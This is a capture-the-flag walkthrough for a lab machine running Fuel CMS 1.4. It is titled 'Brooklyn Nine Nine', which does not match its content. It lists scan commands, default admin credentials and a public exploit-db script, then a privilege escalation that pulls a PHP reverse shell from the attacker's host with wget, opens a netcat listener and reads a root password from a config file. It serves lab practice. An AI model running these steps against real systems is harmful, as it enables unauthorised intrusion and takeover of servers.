

# Brooklyn Nine Nine

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirb, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.156.75

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

Run port scan
```
nmap -sC -sV 10.10.156.75
```


```
dirb http://10.10.156.75
```



Website running Fuel CMS Version 1.4<br>


**USER**: admin<br>
**PASSWORD**: admin<br>

### 2. EXPLOIT

Search for exploit
```
searchsploit fuel cms
```


-m copy exploit to current directory
```
searchsploit -m php/webapps/50477.py
python3 50477.py -u http://10.10.156.75
```


**USER FLAG**: 6470e394cbf6dab6a91682cc8585059b

### 3. PRIVILEGE ESCALATION


Database file located at fuel/application/config/database.php
```
cat fuel/application/config/database.php
```


**ROOT PASSWORD**: mememe

Need a proper shell to become root user

Get php reverse shell from pentest monkey and edit IP


Start python server
```
python -m http.server
```

Get exploit from host machine
```
wget http://10.6.40.234:8000/exploit.php
```

Start listener for reverse shell
```
nc -lnvp 1234
```

Run reverse shell
```
php exploit.php
```

Spawn interactive shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


Now we can switch to the root user

```
su root
cat /root/root.txt
```


**ROOT FLAG**: b9bbcb33e11b80be759c4e844862482d


